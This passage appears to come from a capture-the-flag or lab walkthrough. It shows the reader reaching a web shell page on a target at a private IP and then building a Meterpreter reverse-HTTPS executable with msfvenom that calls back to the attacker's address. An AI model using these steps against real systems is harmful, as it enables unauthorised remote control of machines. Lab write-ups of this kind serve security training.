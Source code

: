 > Again if you were asked for the password just enter the access token
> 

Now let’s go back the the website running on port 80 and navigate to the web shell page

```bash
http://10.10.111.177/webshell.aspx
```

![image.png](../images/lock%2014.png)

notice that we got a shell so let’s go and get a reverse shell

First create a malicious executable 

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.8.5.233 LPORT=443 EXITFUNC=thread -f exe -o shell.exe
```

![image.png](../images/lock%2015.png)
